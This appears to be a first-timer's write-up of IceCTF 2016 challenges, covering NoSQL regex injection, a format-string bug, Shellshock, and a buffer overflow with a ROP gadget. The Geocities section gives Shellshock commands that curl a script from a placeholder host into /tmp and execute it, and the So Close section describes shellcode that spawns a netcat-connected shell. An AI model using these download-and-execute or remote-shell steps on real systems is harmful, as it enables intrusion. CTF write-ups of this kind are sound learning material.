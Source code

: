 # IceCTF-2016-WriteUp
My solutions to some of the challenges in IceCTF 2016. I should mention that this was my first CTF evah...

## A Strong Feeling

The solution I implemented was based on bruteforcing the string character by character. A better solution would have been to script some automatic tool to find the correct input. Whatever.

## Chained In

This was a NoSQL Injection (is this name a thing?). The script does, once again, a bruteforce attack of the admin password (AKA the flag) in a character by character fashion. This is done by using a regex using the `$regex` operator of MongoDB.

## Dear Diary

String format vulnerability. Just pipe the output of the script into the CTF executable and you can see the flag (among other random stuff from memory).

Script: `dear_shit.py`

## Geocities

I exploited shellshock on `index.cgi` to download the simple DB dumper I wrote. Then I executed it and got the flag from the DB.

Usage:
```
geocities_shellshock.sh 'curl http://blabla/dumper.pl > /tmp/fuck.pl'
geocities_shellshock.sh 'chmod +x /tmp/fuck.pl'
geocities_shellshock.sh '/tmp/fuck.pl'
```

It was fun to see that a some people actually went beyond the scope of the CTF and left some "I was here" notes inside the source code of the website.

## So Close

This was a buffer overflow in which we couldn't overwrite the return address of the function, so things got a bit more complicated. Since I'm a n00b and I didn't know any better, I ended up using a ROP gadget from libc in order to bypass ASLR (`call ecx`) and then tried to run the shellcode many times until I succeeded (kinda like... bruteforcing). If you solved it in a sane way please drop me a line.

I rewrote the script I used in order to make it totally automatic... it is now too verbose but I think it's pretty clear what it does:

1. Overwrite a single byte of the value that `ebp` is gonna take at the end of the vulnerable function
2. Put the shellcode in the buffer
3. Fill the rest of the buffer with the address of my `call ecx` gadget
4. Wait for the magic to happen (AKA getting `libc`'s address right)
5. ...
6. PROFIT!

My shellcode lanched the shellscript `./bb` which in turn runs netcat and `/bin/sh`. It is created by the python exploit at runtime.

# Conclusion

The CTF was fun even though I didn't have much time to commit to it. Feel free to ask me any question or point me to better solutions if you want :)
